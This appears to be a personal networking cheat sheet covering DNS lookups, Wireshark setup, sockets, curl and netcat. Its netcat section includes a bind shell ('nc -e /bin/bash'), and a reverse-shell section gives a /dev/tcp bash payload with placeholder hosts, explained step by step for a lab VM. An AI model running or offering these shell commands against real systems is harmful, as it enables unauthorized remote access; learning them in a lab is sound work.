 # Find places

destination directly

    dig +short <domain name>
    nslookup <domain name>

the routes taken

    tracepath <desitination>

# Wireshark

Capture as non-root:

    sudo usermod -a -G wireshark <username>
    sudo chmod 750 /usr/bin/dumpcap
    sudo setcap cap_net_raw,cap_net_admin+eip /usr/bin/dumpcap
    # logout

# File Descriptors

Pointers to the sources of data that the programs are using.

0   stdin   Standard Input
1   stdout  Standard Output
2   stderr  Standard Error

# Sockets

## ss

> another utility to investigate sockets

    # all,numeric(noresolve),tcp,listen,processes
    ss -antlp

# Send a file

    # create on target
    nc -vlpn 6666 > mybin
    
    # execute on target on connect
    nc -vlpn 6666 -e /bin/bash
    
    # send from source
    nc -vn <ip> 6666 < mybin

# Send a basic GET request to the application on server port

        cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

# Reverse shell: /bin/bash -> /dev/tcp

Roger home: [l]isten to a [p]ort with [v]erbose output from [nc] netcat

        nc -v -l -p 666
            
Alien ship : execute it in a terminal of a virtual machine on host only adapter

        /bin/bash -i >& /dev/tcp/[roger-ip]/[roger-port] 0>&1 &

1. Execute bash in [i]nteractive session : /bin/bash -i
2. Send bash output : >&
3. Interact directly with the TCP protocol : /dev/tcp/ip/port/
4. Send bash stdin -> stdout : 0>&1  * Resend to Roger what he is typing
5. All in background : &

# cURL

## passing url with brackets

    -g/--globoff
      This  option  switches  off  the "URL globbing parser". When you set this option, you can
      specify URLs that contain the letters {}[] without having them being interpreted by  curl
      itself.  Note  that  these  letters  are not normal legal URL contents but they should be
      encoded according to the URI standard.
